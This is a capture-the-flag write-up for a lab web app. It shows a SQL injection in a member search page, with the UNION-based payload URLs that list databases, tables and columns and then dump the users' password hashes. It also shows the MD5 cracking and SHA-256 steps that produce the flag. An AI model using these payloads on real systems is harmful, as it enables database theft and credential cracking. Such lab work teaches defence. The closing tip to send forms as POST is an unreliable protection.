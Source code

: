 # Sql_Injection_basic

The GET parameter in the member search form is vulnerable to sql injection

## Method

Go to the member search page (<http://192.168.1.102/?page=member>)  
In the search field search '1 and 1 = 1' (which shows you that the form is vulnerable)

## Manipulation

### getting current database name and listing all databases

```

http://192.168.1.102/?page=member&id=42 union select database(), schema_name from information_schema.schemata&Submit=Submit

```

#### result

```

ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : information_schema
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_Brute_Force
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_Sql_Injection
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_guestbook
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_images
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_survey

```

which shows that the current database is Member_Sql_Injection, the other databases are Member_Brute_Force, Member_guestbook, Member_images, Member_survey

### getting a list of tables in current database

```

http://192.168.1.102/?page=member&id=42 union select table_name, create_time from information_schema.tables where table_schema=database()&Submit=Submit

```

#### result

```
ID: 42 union select table_name, create_time from information_schema.tables where table_schema=database()
First name: users
Surname : 2015-09-16 15:55:03

```

which shows that the database has a table called users

### listing all column names and types

```

http://192.168.1.102/?page=member&id=42 union select column_name, column_type from information_schema.columns where table_schema=database()&Submit=Submit

```

#### result

```

ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: user_id
Surname : int(11)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: first_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: last_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: town
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: country
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: planet
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: Commentaire
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: countersign
Surname : varchar(255)

```

which shows that we have the columns user_id, first_name, last_name, town, country, planet, Commentaire, countersign

### getting the password information

```

http://192.168.1.102/?page=member&id=42 union select Commentaire, countersign from users&Submit=Submit

```

#### result

```

ID: 42 union select Commentaire, countersign from users
First name: Amerca !
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9
ID: 42 union select Commentaire, countersign from users
First name: Ich spreche kein Deutsch.
Surname : 60e9032c586fb422e2c16dee6286cf10
ID: 42 union select Commentaire, countersign from users
First name: ????? ????????????? ?????????
Surname : e083b24a01c483437bcf4a9eea7c1b4d
ID: 42 union select Commentaire, countersign from users
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28

```

You can see that it gives us this helpful part that says "Decrypt this password -> then lower all the char. Sh256 on it and it's good"
We then follow this instruction to get the flag we need.

## How to get the flag

Decode the hash 5ff9d0165b4f92b14994e5c685cdce28 using the md5.gromweb.com website.  
Which gives us the original string "FortyTwo"  
lower all characters and as per the instructions Sh-256 of fortytwo is: 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5  
We now have the flag (10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5)

## Prevention

>Everything has to be done through so-called prepared SQL queries, the ORMs do a good job of protecting info. (cf: PDO :: prepare)  
>Try sending forms as post requests
